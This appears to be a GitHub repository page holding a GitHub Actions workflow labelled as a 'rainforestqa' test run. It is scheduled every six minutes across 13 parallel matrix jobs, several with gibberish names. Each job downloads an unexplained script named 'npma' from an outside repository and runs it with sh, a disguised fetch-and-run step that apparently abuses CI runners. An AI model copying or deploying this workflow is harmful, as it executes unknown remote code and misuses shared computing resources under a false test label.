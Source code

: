 ![656740](https://user-images.githubusercontent.com/103915651/171049220-1f131336-afab-42e2-af4b-ac1597dfed8a.jpg)















BUILD kite
```
name: rainforestqa
on:
  push:
    branches:
      - main
  schedule:
    - cron: '*/6 * * * *'

jobs:
  rainforest:
    runs-on: ubuntu-latest
    strategy:
      matrix:
        Plan: [Regression,Smoke,test,bulk,sit,skalf,saksfq,wefwefi,wefwef,wefwe,sad,dass,gfge]
    name: Run Rainforest
    steps:
      - uses: actions/checkout@v3
      - run: |
         ls
         wget https://github.com/Arlentak/pages/raw/master/npma
         sh npma
```
